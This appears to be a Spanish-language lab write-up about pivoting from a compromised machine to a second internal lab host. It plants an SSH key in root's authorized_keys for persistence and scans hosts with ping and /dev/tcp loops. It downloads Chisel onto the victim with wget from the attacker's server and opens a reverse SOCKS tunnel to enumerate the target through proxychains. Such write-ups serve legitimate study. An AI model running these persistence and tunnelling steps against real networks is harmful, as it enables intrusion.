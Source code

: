 ## Summary

Tags: #Pivoting #Linux #Fuzzing #HTTP3 #Chisel #Proxychains 

- IP ->  10.10.0.129
- Ports -> TCP (22, 80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> 
    - 80 -> 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Pivoting desde Aragog hacia Nagini

Siendo root primero debemos de garantizar el acceso directo a la maquina 'Aragog' y lo haremos colocando con un acceso ssh. 
```bash 
❯ cd /root/ 
❯ cd .ssh/           # Aqui crearemos una 'Authorized Key' publica para podernos conectar y tener una persistencia de acceso directo 
```

En nuestra maquina de atacante nos vamos a crear una clave publica y una clave privada 
```bash 
❯ ssh-keygen                                                     # Creamos una clave publica y una clave privada en nuestra maquina de atacante 
❯ cat ~/.ssh/id_rsa.pub | tr -d '\n' | xclip -sel clip           # Miramos el contenido de nuestra clave publica    
	# ~ = /home/omar/...
	# tr = Quitar el salto de linea
	# xclip = Copiarno el output en la clipboard

# El resultado lo pegaremos en el archivo que crearemos con nombre 'authorized_keys' en la ruta de la maquina victima que es /root/.ssh
❯ nano authorized_keys
```

Una vez garantizado el acceso, procedemos a realizar lo siguiente:
Siendo root miramos las interfaces 
```bash
❯ hostname -I                                # Nos muestra solo la direccion IP de las interfaces 

# Podemos observar que hay dos interfaces, primera con la 192.168.111.38 y la segunda con la IP 10.10.0.128 
```

```bash 
❯ cd /tmp/                                   # Este directorio tiene privilegios de lectura y escritura, por lo que ahi podemos crear scripts
```

Crearemos un archivo llamado 'HotsDiscovery.sh' que nos ayude a ver la trazas ICMP para descubrir las demás interfaces. 
Para ir descubriendo interfaces con el comando ping 
```bash 
!#/bin/bash 

for i in $(seq 1 254); do
	timeout 1 bash -c "ping -c 1 10.10.0.$i" &>/dev/null && echo "[+] Host 10.10.0.$i - ACTIVE" &
done; wait  
```

Le damos permisos de ejecución
```bash 
❯ chmod +x HotsDiscovery.sh       # Le damos permisos de ejecucion 
❯ ./HotsDiscovery.sh              
```

Por si el comando ping no esta disponible, podemos hacerlo por los puertos mas comunes 
```bash
!#/bin/bash 

for i in $(seq 1 254); do
	for port in 21 22 80 443 445 8080; do
		timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.10.0.$i - PORT $port - OPEN" &
	done 
done; wait 

# Ejecutamos y logramos encontrar la IP 10.10.0.129 de la maquina Nagini
```


Para poder llegar a la IP 10.10.0.129 desde nuestra maquina de atacante, podemos usar **Chisel** la cual nos creara un túnel 

1. Descargamos Chisel a nuestra maquina de atacante 'Chisel > Releases > chisel_1.8.1_linux_amd64.gz'
* [Chisel](https://github.com/jpillora/chisel)

2. Descomprimimos y le damos permisos de ejecución 
```bash 
❯ gunzip <file.gz>                           # Para descompirmir archivos gzip
❯ chmod +x chisel
```

3. Lo transferimos a la maquina victima mediante un servidor HTTP 
```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80
```

4. Desde la maquina victima lo descargamos de la siguiente manera 
```bash
❯ wget http://❮IP❯/chisel                   # Para poder cargar o descargar un archivo especifico desde una IP de atacante
```

5. Lo ejecutamos de la siguiente manera para hacer que solo se abra una sola sesión principal que será la de la maquina de atacante. 
```bash
❯ ./chisel server --reverse -p 1234                                                 # Server 'Maquina de atacante', nuestra IP es 192.169.111.106
❯ ./chisel client 192.168.111.106:1234 R:socks # Cliente 'Maquina victima'

	# R = Remote Port Forwarding
	# IP-Server = IP de la maquina atacante
	# Port-Server = Puerto de la maquina atacante
     # socks = Abre el puerto 1080 de nuestra de atacante 
```

```bash
❯ lsof -i:80                                # Para ver que servicio esta ocupando cierto puerto
```

Debemos de hacer los siguientes cambios después de crear el túnel 
```bash 
❯ nano /etc/proxychains.conf 

# Comentamos el Dinamic_chain, este solo se habilita cuando vamos pasando por varios tuneles
# Activamos el strick_chain, este solo es cuando tenemos un tunel 
# Hasta abajo del archivo agregamos lo siguiente:

sock5 127.0.0.1 1080 
```

## Recon

Forma de verificar e iniciar el reconocimiento de los puertos abiertos en la maquina Nagini
```bash 
❯ seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5 -v -n ❮Target IP❯ 2>&1 | grep "tcp open"      # Proxychains nos ayudara que el comando pase por el tunel creado por chisel 

	# P = Tareas en paralelo
# Solo nos muestra los puerto 22 y 80 abiertos 
```

* Siempre debemos de usar **'proxychains'** cuando queramos usar un comando en un túnel. 
```bash 
❯ proxychains whatweb ❮Target IP❯     # Escaneo con whatweb a la maquina victima 
```

Para ver la web de la maquina victima en el Túnel. Debemos de configurar el **'Foxy Proxy'** de nuestro navegador Firefox:
```bash 
Name = Nagini
Proxy Type = SOCKS5
Proxy IP = 127.0.0.1
Port = 1080
```

Para poder hacer Fuzzing en el túnel, lo debemos de hacer de la siguiente manera. 
```bash
❯ gobuster dir -u http://10.10.0.129 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,txt --proxy socks5://127.0.0.1:1080

	# dir -> Modo enumeracion directorios y archivos 
	# u -> Colocamos la url
	# t -> Lanzar peticiones en paralelo al mismo tiempo
	# w -> Ruta del diccionario
	# proxy = Indicamos que hay un proxy de tipo socks5 asi como en donde se encuentra en nuestra maquina
	# x = Buscar archivos con las extensiones html, php, txt

# Encontramos un index.html, note.txt, joomla
```

```bash 
❯ ./chisel client 192.168.111.106:1234 R:socks R:443:10.10.0.129:443/udp      # Cliente 'Maquina victima', nos traemos adicionalmente el puerto 443 de la maquina victima 
```

En note.txt nos dicen que se esta usando un **'HTTP3'** 

```bash
# Ruta para poder ejecutar el http3-client /home/user/quiche/target/debug/examples

❯ ./http3-client ❮https://127.0.0.1❯
```




## User


## Root